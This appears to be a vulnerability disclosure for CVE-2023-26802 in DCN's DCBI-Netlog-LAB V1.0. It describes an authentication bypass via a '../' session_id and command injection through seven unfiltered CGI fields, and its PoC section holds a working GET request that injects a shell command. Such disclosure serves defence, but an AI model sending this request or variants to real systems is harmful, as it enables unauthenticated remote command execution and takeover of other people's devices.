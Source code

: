 # CVE-ID

[CVE-2023-26802](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-26802 "https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-26802")

# Information

**Vendor of the products:**    Digital China Networks

**Vendor's website:**

[https://www.dcnglobal.com (Global)](https://www.dcnglobal.com "https://www.dcnglobal.com")

[https://www.dcnetworks.com.cn (China)](https://www.dcnetworks.com.cn "https://www.dcnetworks.com.cn")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>)

**Affected products:**	DCN (Digital China Networks) DCBI-Netlog-LAB

**Affected system version:**	V1.0

**Product page:** 	[https://www.dcnetworks.com.cn/goods/58.html](https://www.dcnetworks.com.cn/goods/58.html "https://www.dcnetworks.com.cn/goods/58.html")

# Overview

`DCN (Digital China Networks) DCBI-Netlog-LAB` is an online behavior log system. `DCN (Digital China Networks) DCBI-Netlog-LAB V1.0` was detected with `authentication bypass vulnerability` and `command injection vulnerability`. An unauthenticated attacker can send crafted requests to bypass authentication through `directory traversal`, and inject arbitrary malicious commands into seven fields `proto`, `ip`, `pport`, `p_dip`, `pdport`, `odev`, and `tport`. Successful exploits could allow the attacker to execute arbitrary commands in remote systems.

# Vulnerability details

The vulnerability was detected in the **`/usr/local/lyx/lyxcenter/web/cgi-bin/network_config/nsg_masq.cgi`** binary.

## Authentication bypass vulnerability

In the `sub_805534E` function, user authentication is performed.

![](./pic/4.png)

![](./pic/5.png)

In the `sub_8059C00` function, the `__xstat` function is used to check whether the `/tmp/admincache/{user_name}/{session_id}` path exists. If it does, the authentication check is passed.

![](./pic/6.png)

The following figure shows the `session` value when the user name is `admin`.

![](./pic/7.jpg)

Therefore, we can set `user_name` to `admin` and write `../` in `session_id`, points to the upper-layer directory, causing **`directory traversal`**. In this way, we can bypass this authentication, gain administrator privileges, and continue to exploit the following `command injection vulnerability`.

## Command injection vulnerability

When the `act` field is 2 or 3, the `sub_8049D50` function is called.

![](./pic/8.png)

In the `sub_8049D50` function, the contents of the `proto`, `ip`, `pport`, `p_dip`, `pdport`, `odev`, and `tport` fields are concatenated into the command string without any filtering.

![](./pic/9.png)

Finally, whether the `act` field is 2 (that is, a1 is 1) or 3 (that is, a1 is 0), the `popen` function is called with the command string executed as an argument.

![](./pic/10.png)

To sum up, an unauthenticated attacker can bypass authentication through `directory traversal`, and then make `act` 2 or 3, and inject arbitrary malicious commands into seven fields such as `proto`, thus gaining control of the remote systems.

# Poc

For example, send the following message by the `GET` request.

```
GET /cgi-bin/network_config/nsg_masq.cgi?user_name=admin&session_id=../&lang=zh_CN.UTF-8&act=2&proto=;ls>/usr/local/lyx/lyxcenter/web/hack_result.html; HTTP/1.1
Host: 192.168.5.254
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
```

The above request message is just a demonstration. In addition, you can set `act` to 2 or 3 and inject arbitrary malicious commands into seven fields `proto`, `ip`, `pport`, `p_dip`, `pdport`, `odev`, and `tport`.

# Attack Demo

Before the attack, no `/hack_result.html` page exists.

![](./pic/1.jpg)

Follow the POC above to make the request.

![](./pic/2.jpg)

After the attack, visit `/hack_result.html` again, you can see `hack_result.html` has been successfully created, and written to the results of the `ls` command to explain that the command `ls>/usr/local/lyx/lyxcenter/web/hack_result.html` we injected has been executed successfully.

![](./pic/3.jpg)
